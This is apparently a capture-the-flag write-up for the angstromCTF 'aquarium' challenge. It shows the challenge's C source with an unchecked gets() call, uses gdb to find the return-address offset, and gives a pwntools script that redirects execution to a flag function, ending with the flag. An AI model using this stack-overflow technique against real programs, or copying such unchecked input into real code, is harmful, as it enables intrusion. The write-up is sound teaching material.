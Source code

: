## angstromCTF: aquarium
##### *tl;dr: buffer overflow to change control flow*
> Here's a nice little program that helps you manage your fish tank.
#### The pwn challenges for this ctf are 64-bit, which I've never worked with and understood before, thus lead me to learning some new stuff to be used in the upcoming ctfs. It's important to note that we are given the source codes for the binaries, which makes it somewhat easier to understand the control flow and spot the vulnerability. 
##### aquarium.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

struct fish_tank {
	char name[50];
	int fish;
	int fish_size;
	int water;
	int width;
	int length;
	int height;
};


struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);

	strcpy(name, tank.name);
	return tank;
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	struct fish_tank tank;

	tank = create_aquarium();

	if (tank.fish_size * tank.fish + tank.water > tank.width * tank.height * tank.length) {
		printf("Your fish tank has overflowed!\n");
		return 1;
	}

	printf("Nice fish tank you have there.\n");

	return 0;
}
```
#### Analyzing the source code, we see that we are given prompts for various variables for the struct. We also spot the vulnerable gets call on the last prompt, which we can use to perform a buffer overflow. Fire up gdb and do tests on the binary, we can input anything we want on the first few prompts, but we do want to perform the overflow on the prompt for the name.:
```
$ gdb ./aquarium
  gdb-peda$ pattern create 200
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
  
  gdb-peda$ r
  Enter the number of fish in your fish tank: 1000
  Enter the size of the fish in your fish tank: 1000
  Enter the amount of water in your fish tank: 1000
  Enter the width of your fish tank: 1000
  Enter the length of your fish tank: 1000
  Enter the height of your fish tank: 1000
  Enter the name of your fish tank: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
  
  [...]
  RIP: 0x40138e (<create_aquarium+469>:	ret)
  => 0x40138e <create_aquarium+469>:	ret  
  Stopped reason: SIGSEGV
  0x000000000040138e in create_aquarium ()
```
#### Trying to input 200 bytes of random characters, we can be able to trigger the segfault error, but it seems that we don't have control of our rip register. But I have learned that we do have control over it, we just need to find at which offset we can do it. We do this by simply checking the content of the `rsp` register to get the offset then we proceed to verify our control.
```
gdb-peda$ x/wx $rsp
0x7fffffffdd78:	0x41417041

gdb-peda$ pattern offset 0x41417041
1094807617 found at offset: 152

gdb-peda$ r
  [...]
  Enter the name of your fish tank: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
  Stopped reason: SIGSEGV
  0x0000424242424242 in ?? ()
```
#### And yea, there we have it we can control program flow with offset 152. But where do we want to jump to now? We've seen a flag function in the code, and that's where we want to jump to - thus we need it's address:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x4011a6 <flag>
```
#### Then what we need for our exploit is complete, we now proceed to create our exploit script and run it against the server to get our flag.
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'shell.actf.co'
PORT = 19305
p = remote(HOST,PORT)
# p = process('./aquarium')

#: Exploit code
offset = 'A' * 152
flag_addr = p64(0x4011a6)
exploit = offset + flag_addr

#: Send payload
for prompts in range(6):
	p.sendline('1000')

print(p.recvuntil('Enter the name of your fish tank: '))
p.sendline(exploit)
p.interactive()
```
#### We got our flag! 
`actf{overflowed_more_than_just_a_fish_tank}`
